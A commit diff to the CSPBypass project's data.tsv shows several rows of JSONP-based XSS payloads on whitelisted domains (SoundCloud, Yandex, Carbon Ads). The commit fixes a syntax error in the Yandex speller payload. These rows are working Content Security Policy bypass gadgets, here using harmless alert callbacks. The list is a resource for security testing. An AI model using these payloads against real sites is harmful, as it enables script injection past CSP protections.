

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Fixed syntax error.

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -157,3 +157,3 @@ social.yandex.ru	<script src="https://social.yandex.ru/providers.jsonp?callback=
 soundcloud.com	<script src="https://soundcloud.com/oembed?format=js&callback=alert&url=https://soundcloud.com/rich-the-kid/plug-walk-1"></script>
-speller.yandex.net  <script src="https://speller.yandex.net/services/spellservice.json/checkText?text=123&callback=alert(`full XSS on ${document.location`));//"></script>
+speller.yandex.net  <script src="https://speller.yandex.net/services/spellservice.json/checkText?text=123&callback=alert(1)"></script>
 srv.carbonads.net	<script src="https://srv.carbonads.net/ads/x.json?callback=alert"></script>
```
